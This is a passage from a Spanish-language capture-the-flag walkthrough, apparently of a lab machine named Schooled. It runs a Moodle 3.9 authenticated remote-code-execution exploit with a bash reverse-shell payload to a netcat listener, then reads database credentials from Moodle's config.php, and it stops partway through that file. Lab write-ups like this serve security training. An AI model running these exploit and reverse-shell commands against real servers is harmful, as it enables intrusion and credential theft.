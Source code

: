 Nos `descargamos` el `exploit`

```
# searchsploit -m php/webapps/50180.py
  Exploit: Moodle 3.9 - Remote Code Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/50180
     Path: /usr/share/exploitdb/exploits/php/webapps/50180.py
    Codes: N/A
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable, with very long lines (24652)
Copied to: /home/justice-reaper/Desktop/Schooled/scripts/moodlescan/50180.py
```

Nos `ponemos` en `escucha` con `netcat`

```
# nc -nlvp 9001
```

`Ejecutamos` el `exploit` 

```
# python3 50180.py --cookie o9el4nun89bbelqmt0o8n39l3o -c 'bash -c "bash -i >& /dev/tcp/10.10.16.23/9001 0>&1"' http://moodle.schooled.htb/moodle
```

`Recibimos` la `shell`

```
# rlwrap nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.181.78] 53687
bash: cannot set terminal process group (1242): Can't assign requested address
bash: no job control in this shell
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ whoami
www
```

## Privilege Escalation

`Moodle` tiene un `archivo` de `configuración` con las `credenciales` de la `base` de `datos`, así que buscamos el archivo

```
[www@Schooled /]$ find / -name "config.php" 2>/dev/null | grep "moodle/config.php"

/usr/local/www/apache24/data/moodle/config.php
```

`Obtenemos` las `credenciales` de la `base` de `datos`

```
[www@Schooled /]$ [www@Schooled /]$ cat /usr/local/www/apache24/data/moodle/config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
```